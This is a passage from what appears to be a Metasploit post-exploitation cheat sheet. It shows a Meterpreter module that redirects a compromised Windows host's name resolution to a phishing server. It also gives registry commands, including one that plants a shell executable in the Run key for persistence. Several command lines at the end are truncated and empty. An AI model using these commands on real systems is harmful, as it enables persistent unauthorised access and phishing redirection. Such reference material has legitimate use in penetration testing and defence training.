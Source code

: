 ```
msf post(windows/manage/inject_host) > set ip <phishing_server>

msf post(windows/manage/inject_host) > set session <session_id>

msf post(windows/manage/inject_host) > run
```

##### 2.1.3.4 - Registry

* **Help Menu**

```
meterpreter > reg -h
Usage: reg [command] [options]
Interact with the target machine's registry.

OPTIONS:

    -d   The data to store in the registry value.
    -h   Help menu.
    -k   The registry key path (E.g. HKLM\Software\Foo).
    -r   The remote machine name to connect to (with current process credentials
    -t   The registry value type (E.g. REG_SZ).
    -v   The registry value name (E.g. Stuff).
    -w   Set KEY_WOW64 flag, valid values [32|64].
COMMANDS:

    enumkey     Enumerate the supplied registry key [-k <key>]
    createkey   Create the supplied registry key  [-k <key>]
    deletekey   Delete the supplied registry key  [-k <key>]
    queryclass  Queries the class of the supplied key [-k <key>]
    setval      Set a registry value [-k <key> -v <val> -d <data>]
    deleteval   Delete the supplied registry value [-k <key> -v <val>]
    queryval    Queries the data contents of a value [-k <key> -v <val>]
```

* **Basic Commands**

```
meterpreter > reg enumkey -k hklm\\software\\microsoft\\currentversion\\run

meterpreter > reg setval -k hklm\\software\\microsoft\\windows\\currentversion\\run -v <value> -t REG_SZ -d 'C:\path\to\shell.exe'

meterpreter > reg queryval -k hklm\\software\\microsoft\\currentversion\\run -v <value>

meterpreter > reg

meterpreter > reg

meterpreter > reg

meterpreter > reg
```
